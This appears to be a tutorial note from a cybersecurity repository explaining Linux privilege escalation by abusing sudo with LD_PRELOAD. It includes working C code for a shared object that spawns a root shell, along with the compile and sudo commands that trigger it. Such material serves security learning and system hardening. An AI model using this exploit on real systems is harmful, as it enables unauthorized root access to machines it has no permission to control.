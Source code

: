 # Linux Privilege Escalation

### Privilege Escalation with ```sudo```

Any user can check its current situation related to root privileges using the ```sudo -l``` command.

**Leverage LD_PRELOAD**

![image](https://github.com/ankit-c/CyberSec/assets/25206084/e98c273f-b965-4219-98ae-c52f49589110)


LD_PRELOAD is a function that allows any program to use shared libraries. If the "env_keep" option is enabled we can generate a shared library which will be loaded and executed before the program is run. Please note the LD_PRELOAD option will be ignored if the real user ID is different from the effective user ID.

The steps of this privilege escalation vector can be summarized as follows;

- Check for LD_PRELOAD (with the env_keep option)
- Write a simple C code compiled as a share object (.so extension) file
- Run the program with sudo rights and the LD_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows:

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Save this code as shell.c and compile it using gcc into a shared object file using the following parameters:

```gcc -fPIC -shared -o shell.so shell.c -nostartfiles```

We need to run the program by specifying the LD_PRELOAD option, as follows:

```sudo LD_PRELOAD=/home/user/ldpreload/shell.so find```

This will result in a shell spawn with root privileges.

![image](https://github.com/ankit-c/CyberSec/assets/25206084/6817cd0d-bbce-4108-a0df-2eb253931798)



### Resources
[GTFOBins](https://gtfobins.github.io/)

